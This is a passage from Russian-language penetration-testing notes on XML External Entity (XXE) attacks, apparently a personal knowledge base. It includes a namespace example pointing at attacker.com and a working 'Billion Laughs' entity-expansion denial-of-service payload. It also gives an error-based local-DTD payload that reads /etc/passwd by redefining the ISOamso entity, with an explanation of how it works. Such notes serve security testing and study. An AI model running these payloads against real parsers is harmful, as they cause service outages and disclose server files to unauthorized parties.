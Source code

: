 Использовать нестандартные пространства имен:
```
<ns:element xmlns:ns="http://attacker.com/malicious">
    <ns:child>data</ns:child>
</ns:element>
```



## 3.2. При blind xxe

#### [[Работа с XXE использующая DTD формат#3.2.1. Проверка реакции на DTD-инъекции|3.2.1. Проверка реакции на DTD-инъекции]]


## 3.3. Экзотические

- Уязвимость может быть возможна даже при отключенных внешних сущностях, если парсер XML обрабатывает DTD (Document Type Definition) и разрешает использование внутренних сущностей, параметрических сущностей или других функций DTD
#### 1. Атака "Billion Laughs" (DoS через расширение сущностей)
Эта атака использует вложенные внутренние сущности для создания экспоненциального расширения данных, что приводит к отказу в обслуживании (DoS).
```
<?xml version="1.0"?>
<!DOCTYPE example [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<example>&lol3;</example>
```
Результат: Парсер пытается обработать &lol3;, что приводит к экспоненциальному росту данных (миллиарды символов "lol"), потребляя ресурсы сервера.

#### 2. Использование параметрических сущностей и локальных DTD
Если парсер обрабатывает DTD и разрешает параметрические сущности, можно использовать локальные DTD-файлы для обхода ограничений. Например:
```
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
```
Как это работает:
1. Загружается локальный DTD-файл (`local_dtd`).
2. Переопределяется сущность ISOamso из этого файла.
3. Внедряется код для чтения файла /etc/passwd через создание ошибки (попытка загрузить несуществующий путь, содержащий данные из файла).
